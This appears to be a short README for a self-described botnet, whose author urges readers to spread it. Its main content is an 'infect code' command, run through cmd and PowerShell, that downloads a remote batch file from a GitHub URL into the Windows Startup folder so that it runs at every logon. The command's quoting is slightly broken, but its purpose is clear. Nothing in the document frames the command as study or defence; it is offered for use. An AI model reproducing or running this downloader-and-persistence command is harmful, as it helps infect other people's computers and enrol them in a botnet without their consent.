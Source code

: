 # bad botnet made by me
>lazy owner
>u can spread it if u want :D
>pls do it i beg u
>OPEN SOURCE!!!

# INFECT CODE: (RUN ON CMD OR A BATCH FILE)
```
@echo off & powershell -Command "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/unfunnylaugh/botnet/main/code.bat, 'C:\Users\%username%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\RCEE.bat')"
```
